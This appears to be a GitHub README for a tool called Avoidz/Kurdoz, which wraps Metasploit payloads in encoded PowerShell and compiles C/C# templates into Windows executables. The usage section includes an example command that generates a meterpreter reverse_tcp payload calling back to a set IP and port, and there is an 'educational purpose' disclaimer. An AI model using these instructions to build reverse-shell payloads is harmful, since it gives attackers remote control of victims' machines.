 Avoidz v 1.0

Author: ZANYAR MATRIX [ www.ZanyarMatrix.com ]
Legal Disclamer:

The author does not hold any responsibility for the bad use of this tool,
remember this is only for educational purpose.
Description:

This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
Screenshot:

pic1

pic2




Dependencies :

1 - metasploit-framework
2 - xterm
3 - MinGW32
4 - Monodevelop
Download/Config/Usage:

1º - Download the tool from github
     git clone https://github.com/ZanyarMatrix/Kurdoz.git

2º - Set setup script execution permitions
     cd avoidz
     chmod +x setup.sh

3°- Run setup script
     ./setup.sh == to check dependecies

4°- Run Kurdoz tool == example
 ./Kurdoz.rb == help command
 ./Kurdoz.rb -h 192.168.1.3 -p 676 -m windows/meterpreter/reverse_tcp -f temp1 == generate
